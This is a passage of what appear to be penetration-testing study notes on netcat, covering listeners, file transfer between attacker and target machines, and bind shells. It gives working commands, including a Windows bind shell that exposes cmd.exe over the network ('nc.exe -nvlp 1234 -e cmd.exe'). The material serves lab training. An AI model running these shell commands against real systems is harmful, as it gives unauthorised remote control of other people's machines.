 - Setup a listener on the attacker machine

```bash
# Attacker machine
nc -nvlp 1234
nc -nvlup 1234 # listen on a UDP port


# Target machine
nc.exe -nv 10.10.24.4 1234
nc.exe -nvu 10.10.24.4 1234

# A connection is received on the Attacker machine
```

- Transfer files with `nc`

```bash
# A listener must be present on the target system
# Target machine
nc.exe -nvlp 1234 > test.txt

# Attacker machine
echo "Hello target" > test.txt
nc -nv 10.2.23.227 1234 < test.txt
```

### Bind Shells

> 📌 [Bind and Reverse shells](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

![Bind Shell - geeksforgeeks.org](.gitbook/assets/BindShell-660x309.png)

🗒️ **Bind Shell** - a remote shell where *the attacker connects to the listener running on the target system* and execute commands on the target system.

- *Bind shells issues*:
  - Must have access to the target system
  - Inbound traffic can be blocked by a firewall, it is very suspect

-  A `netcat` listener must be configured on the target system to execute:
  - `cmd.exe` - Windows
  - `/bin/bash` - Linux

> 🔬 Same lab as above (IPs might change)

- Once uploaded the `nc.exe` on the target system, proceed with the bind shell

```bash
# Target Win machine - Bind shell listener with executable cmd.exe
nc.exe -nvlp 1234 -e cmd.exe

# Attacker Linux machine
nc -nv 10.2.22.140 1234
```

